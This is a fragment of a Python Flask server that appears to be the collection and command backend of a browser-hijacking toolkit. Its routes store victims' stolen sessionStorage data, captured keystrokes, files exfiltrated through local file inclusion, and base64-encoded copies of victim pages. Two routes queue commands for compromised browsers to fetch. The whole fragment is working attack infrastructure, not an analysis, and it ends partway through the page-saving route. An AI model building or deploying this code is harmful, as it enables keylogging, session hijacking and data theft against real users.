 ```
    if request.method == 'GET':
        sessionStorage = request.args.get("a")
    else:
        sessionStorage = request.form["a"]
    f = open("savedSessionStorage.txt", "a")
    f.write(sessionStorage)
    f.write("\n")
    f.close()
    return ""

@app.route("/saveFile", methods=['POST'])
def saveFile():
    separator = "/"
    mainFolder = "./LFIFiles"
    fileContent = request.form["fileContent"]
    fileName = request.form["fileName"]
    fileName = fileName.replace("../","")
    
    if fileName.startswith("/"):
        separator = ""
    fullPathFileName = mainFolder + separator + fileName
    filePath = '/'.join(fileName.split('/')[0:-1])
    storageFolder = mainFolder + separator + filePath

    if not os.path.exists(storageFolder):
        os.makedirs(storageFolder)
    f = open(fullPathFileName, "a")
    f.write(fileContent)
    f.write("\n")
    f.close()
    return ""

@app.route("/keys", methods=['POST'])
def keys():
    keys = request.form["keys"]
    f = open("savedkeys.txt", "a")
    f.write(keys)
    f.write("\n")
    f.close()
    return ""


@app.route("/getCommand", methods=['POST'])
def getCommand():
    global command
    result = command
    command = ""
    return result

@app.route("/setCommand", methods=['POST'])
def setCommand():
    global command
    command = request.get_data()
    return command

@app.route("/saveSite", methods=['POST'])
def saveSite():
    global isNewFileDownloaded
    global downloadedSite

    siteBase64 = request.form["site"]
    downloadedSite = decodeBase64(siteBase64)
    isNewFileDownloaded = True
```